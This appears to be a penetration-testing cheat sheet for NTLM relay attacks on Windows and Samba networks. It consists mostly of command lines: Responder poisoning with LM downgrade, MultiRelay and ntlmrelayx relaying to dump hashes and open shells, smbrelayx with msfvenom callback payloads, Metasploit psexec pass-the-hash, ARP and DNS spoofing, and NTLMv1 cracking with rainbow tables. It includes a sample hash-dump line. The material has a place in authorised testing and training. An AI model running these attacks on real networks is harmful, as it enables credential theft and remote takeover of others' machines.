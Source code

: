 ## Search for SMB signing
* `responder-RunFinger -i <target>`
    - identify host with SMB signing disbled 

## Responder 
* change `/etc/responder/Responder.conf` - relay the hash
  * `SMB` - off
  * `HTTP` - off
* `responder -I <interface> <--lm> <-dwPv>`
  - `--lm` downgrade NTLMv1/v2 hashes to LM hashes where possible
## Getting shell
### 1. MultiRelay
While responder is running:
* `responder-MultiRelay -t <target> -u <username/ALL> `

In case of issues with MultiRelay.py:
- `apt-get install gcc-mingw-w64-x86-64`
- `x86_64-w64-mingw32-gcc ./MultiRelay/bin/Runas.c -o ./MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv`
- `x86_64-w64-mingw32-gcc ./MultiRelay/bin/Syssvc.c -o ./MultiRelay/bin/Syssvc.exe -municode`

or
- `i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Runas.c -o /usr/share/responder/tools/MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv`
- `i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Syssvc.c -o /usr/share/responder/tools/MultiRelay/bin/Syssvc.exe -municode`

> [!Important]
To keep `SMB` and `HTTP` On in responder.conf - capture the hashes
- 1. Run responder until hashes is received and close
- 2. Run Multirelay
- 3. While MultiRelay is running, run again responder

### 2. ntlmrelayx
In responder.conf, `SMB` and `HTTP` are Off
* `impacket-ntlmrelayx -t <target> -smb2support` - dumps the local hashes
* `impacket-ntlmrelayx -t 172.16.5.10 -i` - interactive shell

### MitM (dnsspoof + arpspoof)
* if no shell/token results from the above attacks, combine classic `responder` + `multirelay/ntlmrelay/smbrelay` with `dnsspoof` + `arpspoof`

## Upgrade to Meterpreter shell
### Windows
* msf> `use exploit/windows/smb/psexec`
  - `set smbuser <localAccount>` - localAccount taken from `ntlmrelayx/MultiRelay.py` hash dump
  - `set smbpass <local-NTLM-hash>` - localAccount taken from `ntlmrelayx/MultiRelay.py` hash dump
e.g. localAccount and local-NTLM-hash is bolded in the following: __admin__:1005:__aad3b435b51404eeaad3b435b51404ee:179699ef43d4b9ba2f8f615f59893917__:::
### Linux
* msf> `use exploit/linux/samba/is_known_pipename`

## Other shells
### smbrelayx
* `impacket-smbrelayx -h <target> -e <payload-file>`
  - payload can be created with `msfvenom` to communicate back to a meterpreter session
  - `exploit/multi/handler` can be used as a listener meterpreter session

### psexec:
* `psexec.py <domain>/<user>:'<password>'@<target-IP>`
* `psexec.py <user>@<target-IP>` - hashes <local-NTLM hash>

### wmiexec:
* `wmiexec.py <user>@<target-IP>` - hashes <local-NTLM hash>

# Cracking NTLMv1
* msf > `use auxiliary/server/capture/smb`
* `rcracki_mt -h <8bytes-hash> *.rti -t <threads-number>` - for the first 8 bytes (16 characters) of the captured hash; use the downloadable .rti rainbow tables
* `<metasploit-framework-folder>/data/john/run.linux.x64.mmx/netntlm.pl --file <captured-hashfile-msf> --seed <password-rcracki>` - for the second half of the captured hash; results are case insensitive
* `<metasploit-framework-folder>/data/john/run.linux.x64.mmx/netntlm.pl --file <captured-hashfile-msf> --seed <full-password-from-previous>` - for the full case-sensitive password

__Rainbow tables__
- http://project-rainbowcrack.com/table.htm
- http://ophcrack.sourceforge.net/tables.php
